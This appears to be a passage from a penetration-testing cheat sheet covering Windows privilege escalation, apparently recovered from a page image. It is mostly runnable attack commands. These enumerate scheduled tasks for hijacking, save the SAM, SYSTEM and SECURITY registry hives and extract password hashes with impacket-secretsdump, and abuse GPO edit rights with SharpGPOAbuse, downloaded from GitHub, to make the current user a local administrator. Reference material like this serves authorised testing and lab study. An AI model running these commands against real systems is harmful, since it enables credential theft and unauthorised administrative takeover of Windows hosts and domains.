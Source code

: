 filtering 
```
schtasks /query /fo LIST /v | findstr /C:"Task To Run:" | findstr /V /I "system32 COM handler"
```

or
```
get-scheduledtask | where-object { $_.Author -and $_.Author -notmatch "Microsoft" -and $_.Author -ne "N/A" } | format-table taskname, taskpath, author, state
```

get taskinfo
```
$task = Get-ScheduledTask -TaskName "TASKNAME" -TaskPath "TASKPATH"
$info = Get-ScheduledTaskInfo -TaskName "TASKNAME" -TaskPath "TASKPATH"

[PSCustomObject]@{
    TaskName       = $task.TaskName
    Author         = $task.Author
    'Task To Run'  = ($task.Actions.Execute -join ', ')
    'Run As User'  = $task.Principal.UserId
    'Next Run Time'= $info.NextRunTime
}
```

permission on the task to run path
```
icacls PATH
```

## Credential Dump
From registry
```
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

extract the hash
```
impacket-secretsdump -sam sam -security security -system system LOCAL
```

# Abuse GPO
 check for the permissions our current user have over the GPONAME
```
import-module .\PowerView.ps1
Get-NetGPO | select displayname
Get-GPO -Name "GPONAME"
Get-GPPermission -Guid ID -TargetType User -TargetName USERNAME
```

download sharpAbuseGPO.exe
```
wget https://github.com/byronkg/SharpGPOAbuse/releases/download/1.0/SharpGPOAbuse.exe
```

add localadmin
```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount CURRENT_USER --GPOName "GPONAME"
```
